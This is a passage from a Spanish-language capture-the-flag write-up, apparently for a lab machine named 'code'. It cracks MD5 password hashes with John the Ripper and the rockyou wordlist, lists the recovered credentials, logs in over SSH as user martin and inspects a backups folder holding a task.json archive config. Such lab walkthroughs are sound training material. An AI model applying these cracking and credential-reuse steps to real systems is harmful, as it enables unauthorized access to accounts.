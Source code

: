 ~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
development      (?)     
nafeelswordsmaster (?)     
2g 0:00:00:00 DONE (2025-08-02 14:25) 4.878g/s 12748Kp/s 12748Kc/s 13244KC/s nafi1993..naerox
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
~~~

Disponemos de las siguientes credenciales para intentar conectarnos a la máquina

~~~ bash
development:development
martin:nafeelswordsmaster
~~~


## Shell as `martin`

Podremos conectarnos como el usuario `martin` a través del protocolo `ssh`

~~~ bash
ssh martin@10.10.11.62                             

martin@10.10.11.62\'s password:
Last login: Thu Jul 10 21:50:18 2025 from 10.10.14.188
martin@code:~$
~~~

Cambiaremos el valor de la variable de entorno `TERM` para poder limpiar la pantalla con `Ctrl+L`

~~~ bash
martin@code:~$ exeport TERM
~~~


## Interesting Files

Dentro del directorio `backups` que está en el directorio del usuario `martin`, veremos los siguientes archivos

~~~ bash
martin@code:~/backups$ ll
total 20
drwxr-xr-x 2 martin martin 4096 Apr  8 11:50 ./
drwxr-x--- 6 martin martin 4096 Apr  8 11:50 ../
-rw-r--r-- 1 martin martin 5879 Apr  8 11:50 code_home_app-production_app_2024_August.tar.bz2
-rw-r--r-- 1 martin martin  181 Apr  8 11:50 task.json

martin@code:~/backups$ cat task.json 
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
~~~
